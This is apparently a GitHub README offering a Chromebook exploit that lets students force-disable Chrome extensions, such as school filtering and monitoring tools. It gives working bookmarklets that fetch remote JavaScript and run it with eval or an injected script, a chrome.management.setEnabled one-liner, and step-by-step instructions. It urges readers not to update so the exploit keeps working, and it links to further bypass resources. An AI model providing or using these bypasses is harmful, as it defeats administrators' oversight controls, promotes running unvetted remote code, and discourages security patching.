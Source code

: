 # Extension remover

## ATTENTION ALL SYS ADMINS!!! 

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

## Back to your scheduled programming

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)

Bookmarklet exploit that can force-disable any extension installed on Google Chrome. Also known as LTBEEF. And for some reason I put a unenroll exploit aswell yippee

**DO NOT UPDATE YOUR CHROMEBOOK! This exploit has been patched in versions 106 and above, so do not update!** If your version is above 106, [try this method](https://github.com/3kh0/ext-remover#for-v106-and-up)

If you need any help, please go here: https://github.com/3kh0/ext-remover/discussions

## For v106 and up

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on 108.0.5359.75 (Official Build) (64-bit) on the stable channel.

This has been tested and does work but has varying levels of success, you will need access bookmarklets (or inspect if your school is dumb like that) and access to a manifest.json page of a extension. Example: chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json (Try this link)

Run the code below, replace the echoontop with the extension ID you want to disable.

```js
chrome.management.setEnabled('echoontop',!1)
```

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.

## For v106 and below

Here are the instructions to using this exploit! There are two ways, using the GUI and using the ids, the GUI method is better.

### Ingot (GUI)

Credit to Nebelung for this, [link to the github](https://github.com/FogNetwork/Ingot)

For easy setup go the the website at https://fognetwork.github.io/Ingot

1. Show your bookmarks bar with `ctrl + shift + b`
2. Right click on the bar and choose `Add Page`
3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)

### Using the GUI

Credit to CompactCow#4717 for the amazing UI!

1. Right click on the bar and choose `Add Page`
1. Set the name to `GUI` and the URL to the code below or [here](https://github.com/3kh0/ext-remover/blob/main/gui.js)
```js
javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

3. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
4. Click the bookmark (Make sure you are on the page above!)
5. Use the menu to toggle your extensions!

**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)

### Using IDs

#### Disabling 

1. Visit chrome://extensions and on the extension you want to disable click on Details
2. Copy the text in the URL after the `?id=`
> For example if you have this URL: `chrome://extensions/?id=echoontop` you would only copy `echoontop`
3.  Go to the file [`bookmark.js`](https://github.com/3kh0/ext-remover/blob/main/bookmark.js) and copy everything and create a new bookmark and use the code you copied as the Page URL
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. Click the bookmark (Make sure you are on the page above!)
6.  Put the ID you copied into the text box.

You're done! The extension should now be disabled.

**If this helped please give me a star!**

#### Enabling

1. Visit chrome://extensions and on the extension you want to enable click on Details
2. Click View in Chrome Web Store
3. You will see a banner at the top of the page that says This item has been disabled in Chrome. Enable this item
4. Click on Enable this item

You're done! The extension should now be enabled.

**If this helped please give me a star!**

Credit bypassi for finding and making this exploit!

## How does it work
Well, it's pretty basic. It finds extensions and displays them on this page with some toggle switches.

![image](https://yeeteeyt.github.io/exploitbranch.png)

then, it detects when the toggle switch is toggled, and for what extension, then compiles a message to chrome that says "hey, turn this off for me". Chrome, mistaking this for the webstore complies.

![image](https://yeeteeyt.github.io/exploitgrid.png)

<h1><b>NOTE:</b></h1> DO NOT DO THIS IF YOU DON'T KNOW WHAT YOU ARE DOING! I don't recommend anyone do this, but I can't really control your will. What I can do, though, is warn you. Doing ANY of this will violate your school's policy and will possibly get you banned from electronics. This sticks to your record, and you won't get rid of it. Think about it, are you REALLY that desperate?

### Full unenrollment

<img src="https://media.tenor.com/x8v1oNUOmg4AAAAd/rickroll-roll.gif" alt="Rickroll GIFs | Tenor"/>

There are still so many more fun exploits, please [join the discord](https://discord.gg/unblock) or [see an alternative](https://github.com/yeeteeyt/goguardian-bypass)
